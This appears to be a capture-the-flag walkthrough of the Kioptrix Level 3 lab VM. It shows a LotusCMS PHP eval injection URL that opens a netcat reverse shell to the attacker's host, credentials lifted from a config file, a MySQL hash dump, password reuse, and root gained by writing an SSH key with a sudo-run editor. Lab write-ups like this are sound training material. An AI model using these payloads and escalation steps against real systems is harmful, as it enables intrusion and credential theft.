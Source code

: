 ```yaml
---
layout: single
title: Kioptrix Level 3 CTF Walkthrough
date: 2017-08-02
categories:
  - security
  - ctf
  - walkthrough
tags:
  - kioptrix
  - vulnhub
---
```

## Exploiting the Web Server
Running Nmap (`nmap -sS -sV -Pn -T4 -vv 192.168.22.131`) showed that only two services seemed to be exposed on this machine (SSH and Apache), so I jumped straight in to looking at the web server.

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
MAC Address: 00:0C:29:B4:4B:F7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I started by poking around for potential injection points. The URL of the home page looked as if it may be susceptible to LFI, as the page name being specified seemed to be the name of a file (i.e. `?page=index`).

I tried a few different payloads, and when including a single quotation mark to see if anything was being drawn from the database, I retrieved a PHP syntax error that mentioned [eval'd](http://php.net/manual/en/function.eval.php) code.

After a bit of looking around the few pages initially available, including the login screen, I was able to confirm the CMS Software in use, which was Lotus. A quick search on Exploit-DB also confirmed that the eval issue I found was definitely exploitable (https://www.exploit-db.com/exploits/18565/).

With this vulnerability confirmed, I started up ncat on my machine (`ncat -l -n -v -p 5555`) and then visited `http://kioptrix3.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%20192.168.22.129%205555%27)};%23` to initialise the reverse shell; which ran in the context of the `www-data` account:

```shell_session
root@kali:~# ncat -l -n -v -p 5555
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 192.168.22.131.
Ncat: Connection from 192.168.22.131:58112.
whoami
www-data
```

## Reconnaissance
The first thing I noticed was that I could read the contents of the `loneferret` account's home directory. Checking this out revealed a `CompanyPolicy.README` file, which contained the contents:

```
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
```

For the time being, this wasn't of any use, as the `www-data` account had no sudo privileges.

Running `uname -a` and `cat /etc/lsb-release` confirmed that the box is running Ubuntu 8.04.3 and that the kernel is version 2.6.24-24. With this information in mind, I tried a few different exploits which should affect this version (the sock_sendpage and the raptor vulnerabilities), however, none were successfully executed.

With kernel exploits not going so well, I rewinded back a bit and headed over to the root folder for `kioptrix3.com` and then grep'd the folder for `localhost`, in an attempt to find the file that is making the connection to MySQL.

```shell_session
www-data@Kioptrix3:/home/www/kioptrix3.com$ grep "localhost" ./ -R
grep "localhost" ./ -R
grep: ./gallery/scopbin/911006.php.save: Permission denied
./gallery/gconfig.php:	$GLOBALS["gallarific_mysql_server"] = "localhost";
www-data@Kioptrix3:/home/www/kioptrix3.com$
```

Looking inside the file found by grep (`gallery/gconfig.php`) revealed the credentials of the root MySQL user:

```php
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

With these credentials, I was able to login to MySQL and retrieve the hashes of  two users (`dreg` and `loneferret`) which were reversible to their plain text counter parts (`Mast3r` and `starwars`):

```shell_session
www-data@Kioptrix3:/home/www/kioptrix3.com$ mysql -u root -p
mysql -u root -p
Enter password: fuckeyou

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| gallery            |
| mysql              |
+--------------------+
3 rows in set (0.00 sec)

mysql> use gallery;
use gallery;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+
7 rows in set (0.00 sec)

mysql> select * from dev_accounts;
select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |
+----+------------+----------------------------------+
2 rows in set (0.00 sec)

mysql>

```

## Getting Root
The password found for the `loneferret` user in the MySQL database was shared across the same account on the system; allowing me to switch to that user:

```shell_session
www-data@Kioptrix3:/home/www/kioptrix3.com$ su loneferret
su loneferret
Password: starwars

loneferret@Kioptrix3:/home/www/kioptrix3.com$
```

With the message from earlier in mind, regarding the use of the `ht` binary (an interactive text editor), I [upgraded to a fully interactive shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) and ran the binary, using `sudo -u root /usr/local/bin/ht`.

As the program was running as `root`, I was able to edit any file on the system. So, I proceeded to create a new file containing a public SSH key, and saved it to `/root/.ssh/authorized_keys`:

![ht](/assets/images/kioptrix-level-3-ctf-walkthrough/ht.png)

**Note: if you're not sure how to navigate HT, hold the Alt key and use the highlighted letters / numbers on screen; e.g. Alt + F opens the File menu.**

With my public key now placed in root's `authorized_keys`, I was able to SSH in as `root` and read the flag file:

```shell_session
root@kali:~# ssh -i ./id_rsa root@192.168.22.131
Last login: Mon Apr 18 11:29:13 2011
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
root@Kioptrix3:~#
```
